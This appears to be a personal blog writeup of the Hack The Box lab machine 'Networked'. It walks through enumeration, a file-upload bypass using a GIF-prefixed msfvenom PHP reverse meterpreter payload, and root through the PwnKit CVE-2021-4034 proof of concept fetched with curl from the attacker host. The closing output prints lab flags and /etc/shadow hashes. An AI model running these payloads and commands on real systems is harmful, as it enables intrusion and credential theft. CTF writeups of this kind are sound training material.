 ```yaml
---
title: "HTB: Networked Writeup"
date: 2021-06-17T23:36:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb easy
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration
This began with an nmap scan
```bash
$ nmap -sC -sV 10.10.10.146
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 14:50 EDT
Nmap scan report for 10.10.10.146
Host is up (0.69s latency).
Not shown: 806 filtered tcp ports (no-response), 191 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.17 seconds
```

From these ports, the only really interesting one is 80. We also have a bit of info, the machine is running CentOS and PHP 5.4.16.

## Port 80
Beginning with a gobuster scan:

```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.10.146 -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/06/30 14:59:20 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 229]
/lib.php              (Status: 200) [Size: 0]  
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/] 
/upload.php           (Status: 200) [Size: 169]                                   
/photos.php           (Status: 200) [Size: 5980]                                  
/.                    (Status: 200) [Size: 229]
```

The scan lists a few interesting files, it looks like there's an `upload.php` that may be of interest to us. Additionally, there's a `backup` directory. Taking a look at the backup directory, I can see `backup.tar` listed there, which is the source code of the PHP files!

Looking through the PHP files, it looks like `upload.php` will receive input from the user as an uploaded file then validate that it's a valid file with `check_file_type`
```php
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
  echo '<pre>Invalid image file.</pre>';
  displayform();
}
```

The `check_file_type` function will obtain the MIME of the file and check if it contains `image/`.
```php
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
```

Next, once the file validates the MIME type, it next checks the file extension:
```php
list ($foo,$ext) = getnameUpload($myFile["name"]);
$validext = array('.jpg', '.png', '.gif', '.jpeg');
$valid = false;
foreach ($validext as $vext) {
  if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
    $valid = true;
  }
}
```

So the uploaded file must have one of the image extensions and a valid MIME type.

From here, I spent a lot of time trying to bypass the file extension check to upload an image with a `.php` extension. I tried many things such as using `jhead` to modify a JPG file and inserting a NULL byte into the uploaded filename (e.g. `shell.php\x00.jpg`). But I was unable to bypass this file extension filter. After a while of trying on this "easy" box, I finally gave up and look at the ippsec video where he went over the box and he simply uploaded it WITH the image extension, and the webserver still executed it as PHP code. Why didn't I think of trying to see if the image executed as PHP??

Next, crafting the payload PHP script:
```bash
$ echo -n "GIF8;" > payload.php.gif
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 >> payload.php.gif
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
```

The above creates a file with the GIF magic number (`GIF8;`), and appends a PHP payload on to the image with a reverse meterpreter payload. 

Next, we must set up a listener to catch the callback when we receive it.
```bash
$ msfconsole -q -x "use exploit/multi/handler; set payload php/meterpreter/reverse_tcp; set lhost 10.10.14.5; set lport 8080; run"
[*] Using configured payload generic/shell_reverse_tcp
payload => php/meterpreter/reverse_tcp
lhost => 10.10.14.5
lport => 8080
[*] Started reverse TCP handler on 10.10.14.5:8080 
[*] Sending stage (39927 bytes) to 10.10.10.146
[*] Meterpreter session 1 opened (10.10.14.5:8080 -> 10.10.10.146:36816) at 2022-06-30 14:26:53 -0400
```

Finally, uploading the `payload.php.gif` and then accessing it via the web browser was able to callback to our listener and give us an interactive shell.

# Privesc - User
TBD

# Privesc - Root
I'm not certain if this is the intended way to obtain root, but when I ran linpeas, it reported that this machine is vulnerable to CVE-2021-4034. That exploit has a [POC posted on github](https://github.com/arthepsy/CVE-2021-4034), however that POC requires compiling with gcc and we do not have gcc on the target machine. That did not pose a problem though, on my local machine I downloaded the POC and compiled it, it does internally use GCC again, so I compiled two versions of it.

```bash
$ wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ sed -i 's:execve:// execve:g' cve-2021-4034-poc.c
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc-setup
$ ./cve-2021-4034-poc-setup
$ tar cf - pwnkit | gzip -9 > pwnkit.tgz
$ sudo python3 -m http.server 80
```

Now, back in our shell:
```bash
meterpreter > shell
cd /tmp
curl 10.10.14.5/pwnkit.tgz -O pwnkit.tgz
tar xf pwnkit.tgz
curl 10.10.14.5/cve-2021-4034-poc -O cve-2021-4034-poc
chmod +x cve-*
./cve-2021-4034-poc
whoami
root
cat /home/g*/user.txt
526cfc2305f17faaacecf212c57d71c5
cat /root/root.txt
0a8ecda83f1d81251099e8ac3d0dcb82
cat /etc/shadow
root:$6$wRmoL66y$Lz9oA82o1iDwKwJjhUwuGhuOakrYdclnbsJ/K9OQF40hMNk0UDoxtTqQ1UnC8SzLyZ8sujxQjhT/gvmkOfoJZ1:18079:0:99999:7:::
guly:$6$eKNFoPNC$HlNBvdf0mFXswJ7xRZFaBQgfo0gR626ui/1rydhlIih/PEqDI8ZsrHUsET1y93GtydanJBwl82eGO8Iw0JJM90:18079:0:99999:7:::
```

And that's it, we're now root.
